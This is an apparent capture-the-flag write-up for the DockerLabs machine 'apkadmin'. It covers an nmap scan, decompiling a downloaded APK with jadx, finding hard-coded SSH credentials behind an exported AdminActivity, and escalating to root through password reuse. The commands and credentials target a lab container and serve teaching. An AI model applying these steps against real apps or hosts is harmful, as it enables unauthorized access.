

# apkadmin

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| apkadmin | El Pingüino de Mario | easy | dockerlabs |

**Summary:** This Android reverse engineering challenge begins with a Python web server hosting an APK file. Decompiling the application with `jadx` reveals an exported `AdminActivity` that grants SSH credentials when launched with an `isAdmin` intent extra set to `true`. The credentials provide SSH access as user `pingu`, and `su -` with the same password escalates privileges directly to root.

---

The target was deployed and its IP address was `172.17.0.2`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ sudo bash auto_deploy.sh apkadmin.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ip=172.17.0.2
```

A port scan was launched to identify open services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-19 21:59 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey:
|   256 fd:46:13:f6:60:da:6f:92:29:1c:88:18:44:e0:9e:b1 (ECDSA)
|_  256 3f:4b:a6:84:c6:eb:fd:b4:3a:21:b1:59:22:a9:c9:e4 (ED25519)
80/tcp open  http    SimpleHTTPServer 0.6 (Python 3.11.2)
|_http-title: Laboratorio: AdminBypass CTF
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.29 seconds
```

It is about an android pentest challenge.



The APK was downloaded and decompiled.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ wget http://172.17.0.2/AdminBypassCTF.apk
--2026-07-19 22:06:37--  http://172.17.0.2/AdminBypassCTF.apk
Connecting to 172.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5791613 (5.5M) [application/vnd.android.package-archive]
Saving to: 'AdminBypassCTF.apk'

AdminBypassCTF.apk   100%[====================>]   5.52M  --.-KB/s    in 0.1s

2026-07-19 22:06:37 (38.4 MB/s) - 'AdminBypassCTF.apk' saved [5791613/5791613]

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ which jadx
/opt/jadx/build/jadx/bin/jadx

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ jadx -d decompile_apk AdminBypassCTF.apk
INFO  - loading ...
INFO  - processing ...
ERROR - finished with errors, count: 78
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/decompile_apk]
└─$ ls -la
total 16
drwxr-xr-x 4 ouba ouba 4096 Jul 19 22:07 .
drwxr-xr-x 3 ouba ouba 4096 Jul 19 22:07 ..
drwxr-xr-x 5 ouba ouba 4096 Jul 19 22:08 resources
drwxr-xr-x 8 ouba ouba 4096 Jul 19 22:07 sources

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/decompile_apk]
└─$ cd resources

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/decompile_apk/resources]
└─$ ls -la
total 28
drwxr-xr-x   5 ouba ouba 4096 Jul 19 22:08 .
drwxr-xr-x   4 ouba ouba 4096 Jul 19 22:07 ..
-rw-r--r--   1 ouba ouba 3376 Jul 19 22:08 AndroidManifest.xml
-rw-r--r--   1 ouba ouba 1738 Jul 19 22:08 DebugProbesKt.bin
drwxr-xr-x   8 ouba ouba 4096 Jul 19 22:08 kotlin
drwxr-xr-x   4 ouba ouba 4096 Jul 19 22:08 META-INF
drwxr-xr-x 151 ouba ouba 4096 Jul 19 22:07 res

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/decompile_apk/resources]
└─$ cat AndroidManifest.xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="1"
    android:versionName="1.0"
    android:compileSdkVersion="34"
    android:compileSdkVersionCodename="14"
    package="com.ctf.adminbypass"
    platformBuildVersionCode="34"
    platformBuildVersionName="14">
    <uses-sdk
        android:minSdkVersion="24"
        android:targetSdkVersion="34"/>
    <permission
        android:name="com.ctf.adminbypass.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION"
        android:protectionLevel="signature"/>
    <uses-permission android:name="com.ctf.adminbypass.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION"/>
    <application
        android:theme="@style/Theme.AdminBypassCTF"
        android:label="@string/app_name"
        android:icon="@mipmap/ic_launcher"
        android:debuggable="true"
        android:allowBackup="true"
        android:supportsRtl="true"
        android:extractNativeLibs="false"
        android:fullBackupContent="@xml/backup_rules"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:appComponentFactory="androidx.core.app.CoreComponentFactory"
        android:dataExtractionRules="@xml/data_extraction_rules">
        <activity
            android:name="com.ctf.adminbypass.MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity
            android:name="com.ctf.adminbypass.UserActivity"
            android:exported="false"/>
        <activity
            android:name="com.ctf.adminbypass.AdminActivity"
            android:exported="true"/>
        <provider
            android:name="androidx.startup.InitializationProvider"
            android:exported="false"
            android:authorities="com.ctf.adminbypass.androidx-startup">
            <meta-data
                android:name="androidx.emoji2.text.EmojiCompatInitializer"
                android:value="androidx.startup"/>
            <meta-data
                android:name="androidx.lifecycle.ProcessLifecycleInitializer"
                android:value="androidx.startup"/>
            <meta-data
                android:name="androidx.profileinstaller.ProfileInstallerInitializer"
                android:value="androidx.startup"/>
        </provider>
        <receiver
            android:name="androidx.profileinstaller.ProfileInstallReceiver"
            android:permission="android.permission.DUMP"
            android:enabled="true"
            android:exported="true"
            android:directBootAware="false">
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.INSTALL_PROFILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.SKIP_FILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.SAVE_PROFILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.BENCHMARK_OPERATION"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

The `AdminActivity` has `android:exported="true"` and is not protected, meaning it can be called from outside. The decompiled source revealed what happens when that activity is invoked.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/decompile_apk/sources]
└─$ cat com/ctf/adminbypass/AdminActivity.java
package com.ctf.adminbypass;

import android.os.Bundle;
import android.widget.TextView;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;
import androidx.constraintlayout.widget.ConstraintLayout;
import kotlin.Metadata;

/* JADX INFO: compiled from: AdminActivity.kt */
/* JADX INFO: loaded from: classes3.dex */
@Metadata(d1 = {"\u0000\u0018\n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\u0018\u00002\u00020\u0001B\u0005¢\u0006\u0002\u0010\u0002J\u0012\u0010\u0003\u001a\u00020\u00042\b\u0010\u0005\u001a\u0004\u0018\u00010\u0006H\u0014¨\u0006\u0007"}, d2 = {"Lcom/ctf/adminbypass/AdminActivity;", "Landroidx/appcompat/app/AppCompatActivity;", "()V", "onCreate", "", "savedInstanceState", "Landroid/os/Bundle;", "app_debug"}, k = 1, mv = {1, 9, 0}, xi = ConstraintLayout.LayoutParams.Table.LAYOUT_CONSTRAINT_VERTICAL_CHAINSTYLE)
public final class AdminActivity extends AppCompatActivity {
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_admin);
        TextView flagView = (TextView) findViewById(R.id.textFlag);
        boolean isAdmin = getIntent().getBooleanExtra("isAdmin", false);
        if (isAdmin) {
            flagView.setText("Acceso SSH\n\nUsuario: pingu\nContrasena: chocolate");
        } else {
            Toast.makeText(this, R.string.access_denied, 0).show();
            finish();
        }
    }
}
```

The credentials were recovered. SSH access was straightforward.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/…/sources/com/ctf/adminbypass]
└─$ ssh pingu@172.17.0.2
pingu@172.17.0.2's password:
Linux 812bd9c76618 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 19 15:13:12 2026 from 172.17.0.1
pingu@812bd9c76618:~$ id
uid=1000(pingu) gid=1000(pingu) groups=1000(pingu)
pingu@812bd9c76618:~$ ls -la
total 28
drwxr-xr-x 1 pingu pingu 4096 Jul 19 15:13 .
drwxr-xr-x 1 root  root  4096 Jul  4 14:10 ..
-rw------- 1 pingu pingu    8 Jul 19 15:13 .bash_history
-rw-r--r-- 1 pingu pingu  220 May  7 20:33 .bash_logout
-rw-r--r-- 1 pingu pingu 3526 May  7 20:33 .bashrc
-rw-r--r-- 1 pingu pingu  807 May  7 20:33 .profile
```

Privilege escalation was immediate.

```bash
pingu@812bd9c76618:~$ su -
Password:
root@812bd9c76618:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
812bd9c76618
root@812bd9c76618:~# ls -la
total 20
drwx------ 1 root root 4096 Jul  4 14:09 .
drwxr-xr-x 1 root root 4096 Jul 19 14:57 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 3 root root 4096 Jul  4 14:09 .cache
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```

---

## Attack Chain Summary

1. **Reconnaissance**: An Nmap scan identified ports 22 (SSH) and 80 (HTTP) on the target. The web service hosted an APK file for download.
2. **Vulnerability Discovery**: Decompiling the APK with `jadx` exposed an exported `AdminActivity` in `AndroidManifest.xml`. The activity's source code revealed it checked for an `isAdmin` boolean extra to conditionally display credentials.
3. **Exploitation**: The `AdminActivity` was invoked with `isAdmin` set to `true` via an Android intent, which caused the application to display the SSH username and password.
4. **Internal Enumeration**: The user `pingu` had a standard home directory with no unusual files or SUID binaries.
5. **Privilege Escalation**: The same password used for SSH was also the root password. Running `su -` granted immediate root access.
